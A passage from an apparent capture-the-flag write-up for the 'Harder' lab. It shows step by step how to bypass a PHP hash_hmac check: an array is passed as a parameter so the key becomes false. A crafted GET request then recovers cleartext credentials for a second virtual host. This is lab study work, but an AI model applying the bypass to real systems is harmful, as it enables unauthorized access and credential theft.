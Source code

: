 We can hack the test defined in `hmac.php` by injecting the appropriate GET variables (`h`, `n` and `host`). The ultimate test will check that our `h` value is equal to `$hm`, which is itself defined as follows:

```php
$hm = hash_hmac('sha256', $_GET['host'], hash_hmac('sha256', $_GET['n'], $secret));
```

Searching on the Internet how to bypass `hash_hmac` leads to this post: https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up. It states that providing an array as second argument to the function will force it to return `false`. Let's test:

~~~
$ php -r "echo hash_hmac('sha256', Array(), 'secret')==false;"
PHP Warning:  hash_hmac() expects parameter 2 to be string, array given in Command line code on line 1
1
~~~

The function returned `1`, which confirms that we can take advantage of this vulnerability to pass an array for the `n` parameter. Let's compute the hash with the secret set to `false`:

~~~
$ php -r "echo hash_hmac('sha256', 'pwd.harder.local', false);"
5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf
~~~

Now, we'll send this request: http://pwd.harder.local?n[]=&h=5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf&host=pwd.harder.local

![hacked-hmac.png](files/hacked-hmac.png)

Here is what we get:

url | username | password (cleartext)
---|---|---
http://shell.harder.local | evs | 9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm


## shell.harder.local (virtual host)

We start by adding the virtual host to our `/etc/hosts` file which now contains the 2 virtual hosts:

~~~
10.10.84.103	pwd.harder.local	shell.harder.local
~~~

Browsing http://shell.harder.local leads to the same authentication form as previously, which we successfully pass with `evs:9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm`. Now, the message is: "Your IP is not allowed to use this webservice. Only 10.10.10.x is allowed".
